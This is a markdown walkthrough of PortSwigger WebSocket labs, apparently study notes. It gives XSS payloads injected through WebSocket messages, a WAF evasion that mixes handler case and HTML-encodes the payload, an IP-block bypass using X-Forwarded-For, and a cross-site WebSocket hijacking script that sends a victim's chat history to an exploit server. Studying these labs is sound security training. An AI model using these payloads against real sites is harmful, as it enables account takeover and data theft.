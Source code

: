 # WebSockets

- https://portswigger.net/web-security/websockets
- https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking

## Manipulating WebSocket messages to exploit vulnerabilities

Live chat functionality uses web sockets for live server-client connection. When using a website form and intercepting WebSocket messages via Burp we can observe that characters like `<` or `>` gets html encoded.

Forwarding a massage to Burp Repeater, we can then sent pure message without encoding and notice, that the server responds with unencoded content and injects it into the page without sanitization.

Sendning below message to the server solves the lab

```
{"message":"<img src=X onerror='alert()'/>"}
```

## Manipulating the WebSocket handshake to exploit vulnerabilities

This time WAF is present and every IP that got flagged for commiting an attack gets blocked.

WebSocket handshake accepts and respects `X-Forwarded-For` header, which allows IP blocking bypass.

In order to bypass XSS filter and submit the same payload as above, we can change `onerror` tag name to pokemon case and html encode the content of it, since it will be decoded when run by browser anyway.

Resulting payload solving the lab:

```
{"message":"<img src=X oNeRrOr='&#97;&#108;&#101;&#114;&#116;&#40;&#41;'>"}
```

## Cross-site WebSocket hijacking

`GET /chat` request for WebSocket handshake does not contain any form of protection against `CSRF`, like `CSRT tokens`.

It looks like the chat is tied up to the session, which is represented by `session` cookie only. Changing the cookie and entering the chat page results in `No chat history`, but entering the previous cookie again retireves previous messages.

Delivering below page to the victim steals their chat history and let us review it in Exploit server Access logs.

```
<script>
    var ws = new WebSocket('wss://0a1f0047047e780583c30aa10001007b.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://exploit-0a4c00bd0440782c8348096901990061.exploit-server.net/?q=' + event.data);
    };
</script>
```

From now we can login as carlos and solve the lab, since his password was leaked here.
